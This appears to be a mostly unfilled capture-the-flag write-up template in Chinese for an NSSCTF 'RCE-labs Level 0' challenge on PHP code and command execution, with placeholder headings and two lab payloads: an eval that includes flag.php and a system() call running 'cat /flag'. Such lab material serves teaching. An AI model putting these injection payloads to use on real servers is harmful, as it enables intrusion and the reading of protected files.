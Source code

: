 > Problem: [[RCE-labs]Level 0 -  代码执行&命令执行](https://www.nssctf.cn/problem/6006)

## 思路
* 解题大致思路

## EXP
* 具体攻击代码
代码执行：

eval("include('flag.php');echo 'This will get the flag by eval PHP code: '.\$flag;");
命令执行：

system("echo 'This will get the flag by Linux bash command - cat /flag: ';cat /flag");

## 总结
* 对该题的考点总结
